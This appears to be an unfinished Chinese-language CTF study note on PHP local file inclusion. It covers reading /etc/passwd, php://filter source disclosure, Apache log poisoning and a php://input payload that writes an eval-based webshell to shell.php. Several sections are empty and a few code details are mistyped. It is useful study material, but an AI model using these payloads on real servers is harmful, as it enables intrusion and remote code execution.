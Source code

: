 #### 本地文件包含

###### 利用条件

1. 存在`include`，`require`等函数
2. 能控制参数带入到上面的函数

###### 常见用法

1. 读取敏感文件

如`etc/passwd`

2. 使用伪协议读取源码

```
php://filter/read=convert.base64-encode/resource=xxx.php
```

3. 包含含有shell的文件,

如果源码中包含有获取`.php`的文件，那么可以上传一个`.jpg`文件，使用中间件解析漏洞，尝试读取`.jgp.php`文件，使用`php`解析这个`jpg `文件

4. 包含Apache日志的Getshell

需要知道apache的日志文件`access.log`的存放位置，一般在`/var/log/httpd/access_log`。

使用`http://xxxx.com/<?php phpinfo ?>`访问，这个历史继续会写在日志文件。然后可以访问日志文件，就会触发文件包含漏洞。



#### 远程文件包含





#### 伪协议

一般的文件包含，感觉都会配合伪协议。

伪协议可以读写源码。可以看到源码中注解的`flag`，或者执行php的代码，得到目录结构，获取`flag文件名字`。



###### file://

访问本地文件系统，不受`allow_url_fopen`，和`allow_url_include`影响。



###### php://

用于访问输入、输出流。

```
# 执行php代码
php://input 
# 若有写入权限,可以写入一句话木马到文件。
<?php fput(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
# 读取源码
php://filter
php://stdin
php://memory
php://temp
```



###### zip:// & bzip2:// & zlib://

可以访问压缩文件中的子文件。

不需要指定后缀名？可修改为任意后缀`jpg,png,gif,xxx`??



###### data://

将文本以数据流封装传递，通常可以用来执行php代码。



###### phar://



###  题目：


###### 1. ctf.show_web3

